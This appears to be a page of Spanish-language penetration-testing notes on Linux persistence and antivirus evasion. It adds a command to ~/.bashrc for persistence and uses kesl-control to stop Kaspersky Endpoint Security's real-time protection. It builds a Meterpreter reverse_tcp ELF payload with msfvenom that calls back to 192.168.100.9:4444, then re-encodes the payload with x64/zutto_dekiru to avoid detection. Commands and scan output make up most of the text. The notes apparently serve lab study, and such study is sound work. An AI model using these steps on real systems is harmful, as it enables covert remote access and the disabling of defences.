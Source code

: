 ### Archivos de condiguracion de usuario
echo "touch /tmp/bashtest.txt" >> ~/.bashrc
ls -al /tmp/bashtest.txt
/bin/bash
ls -al /tmp/bashtest.txt
 
#### Puerta trasera simple de configuración de VIM
```
:echo "this is a test"
```
 
### Bypassing AV
#### Kaspersky EndPoint Security
Deshabilitar protección en tiempo real
```
sudo kesl-control --stop-t 1
```

Escaneo de archivo `eirca.txt`

```
sudo kesl-control --scan-file ./eicar.txt
sudo kesl-control -E --query | grep DetectName
```

Si ejecutamos un escaneo con Kaspersky en nuestro archivo met.elf como hicimos con nuestro archivo de prueba EICAR, el archivo es detectado como malware.
```bash
> msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.100.9 lport=4444 -f elf > met.elf
> sudo kesl-control --scan-file met.elf
> sudo kesl-control -E --query | grep DetectName
DetectName=HEUR:Backdoor.Linux.Agent.ar
```

Encoder `x64/zutto_dekiru` no detectado por AV
```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.100.9 lport=4444 -f elf  -e x64/zutto_dekiru > met64zutto.elf
sudo kesl-control --scan-file met64zutto.elf 
```

Restaurar proteccion en tiempo real (cuando accedemos o ejecutamos un archivo, Kaspersky escanearlo automáticamente en busca de virus.)
```
sudo kesl-control --start-t 1
```

 
